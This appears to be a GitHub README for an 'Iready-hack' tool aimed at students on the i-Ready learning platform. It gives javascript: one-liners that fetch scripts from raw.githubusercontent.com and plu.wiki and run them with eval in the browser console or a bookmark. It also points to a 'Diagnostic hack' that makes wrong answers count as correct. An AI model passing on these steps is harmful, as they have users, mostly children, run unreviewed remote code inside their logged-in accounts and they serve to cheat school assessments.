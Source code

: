 # Iready-hack
<bold><h1>How to setup:</bold></h2>
Copy the code below and login to i-Ready.

Do Ctrl + Shift + J to open the console and paste the code in there, hit Enter to run it.

If your school blocks the console then make a new bookmark and in the URL section paste the code there. Click the bookmark anytime to run the code.

    javascript:fetch('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js').then(r => r.text()).then(r => eval(r))

If your school blocks github, use:

     javascript:fetch('https://plu.wiki/files/bookmarklet.js').then(r => r.text()).then(r => eval(r))

<bold><h1>How to hack Iready:</bold></h1>

https://www.youtube.com/watch?v=ou652X0cFzs

<bold><h1>How to make a bookmark:</bold></h1>

https://www.youtube.com/watch?v=XAMg8Qm3eEA&ab

# Diagnostic-hack (Example: Q: 3+1, A: 4, but you put 5 and you got it right.)
<bold><h1>How to setup:</bold></h2>

<bold>Example:</bold> 

(The Question is what's 3+1, The Answer is 4, but you put 5 and you got it right.)


Copy this link and paste it in a new tab:
   
        https://github.com/BD1Studios/Iready-hack/blob/main/Diagnostic%20hack
        
Copy and paste the code in your console on I-ready, Then every question you click, its right, Paste the code again to stop getting wrong answers correct. You can open up the console by using: Ctrl  Shift  J. You can close the console by using the same method to open up the console.

<h1>P.S. 
BD1Studios</h1>
Subscribe on my YT: bit.ly/BD1Studios

